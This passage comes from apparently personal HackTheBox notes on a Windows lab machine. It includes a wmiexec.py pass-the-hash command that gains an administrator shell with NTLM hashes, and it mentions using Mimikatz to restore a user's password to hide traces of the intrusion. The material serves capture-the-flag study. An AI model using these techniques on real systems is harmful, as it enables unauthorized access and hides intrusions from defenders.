 ![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110205419.png)

Can't grab the flag as SYSTEM user due to EFS (Encrypted File System). Using WMIExec to get a shell as the actual user

Use #wmiexec

```
wmiexec.py -hashes 184fb5e5178480be64824H4cd53b99ee:184fb5e5178480be64824H4cd53b99ee administrator@10.10.10.192
```

Using Mimikatz to restore the password of Audit2020, so it's like we were never there.

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110205816.png)
